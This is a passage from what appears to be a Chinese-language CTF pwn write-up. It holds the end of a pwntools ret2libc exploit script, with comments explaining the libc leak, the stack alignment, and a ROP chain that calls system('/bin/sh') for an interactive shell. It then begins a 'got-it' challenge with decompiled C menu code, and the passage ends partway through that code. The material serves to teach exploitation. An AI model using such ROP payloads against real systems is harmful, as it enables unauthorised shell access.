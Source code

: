 ```python
])

io.recvuntil(b'input:\n')
io.sendline(payload1)
io.recvuntil(b'time!\n')

# u64() 接收一个 8 字节字符序列并解包为对应的地址
# 地址的高位一定是 \0，比如 0x00007f706a508fc0，输出时会被 puts 截断
# 所以可以保证 recvline() 得到的字符序列去掉行尾 \n 后一定是 8 字节以内的
# 最后使用 ljust(8, b"\0")) 向高位补齐 \0 即可
# 得到的地址是真实的 read 地址，减去 read 在 libc 中的偏移量即可得到 libc 基址
libc.address = u64(io.recvline()[:-1].ljust(8, b"\0")) - libc.sym.read

payload2 = flat([
    b'\0'*0x28,
    # system 函数中有使用到 movups xmmword 相关汇编指令，需要对栈进行对齐
    # 这里 rdi + 1 是一个 retn 语句，根据 rop 链的特性，可以返回到自己
    # 从而让栈多了一字节，实现对齐操作（另见栈对齐）
    rdi + 1,
    # libc.search 搜索 elf 文件中的文本，返回的是一个迭代器
    # 使用 next() 得到第一个 /bin/sh 所在的地址
    rdi, next(libc.search(b'/bin/sh')),
    # 当设置了 libc.address 后，plt, got, sym 的地址均会自动更新
    libc.sym.system
])

io.recvuntil(b'input:')
io.sendline(payload2)

io.interactive()
```

### [Week1] got-it

> 延迟绑定，got 表里存的究竟是啥

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+Ch] [rbp-4h] BYREF

  bufinit(argc, argv, envp);
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%d", &v3);
    if ( v3 == 8227 )
      break;
    if ( v3 <= 8227 )
    {
      if ( v3 == 4 )
      {
        puts("Thanks for using!");
        exit(0);
      }
      if ( v3 <= 4 )
      {
        switch ( v3 )
        {
          case 3:
            edit();
            break;
          case 1:
            add();
```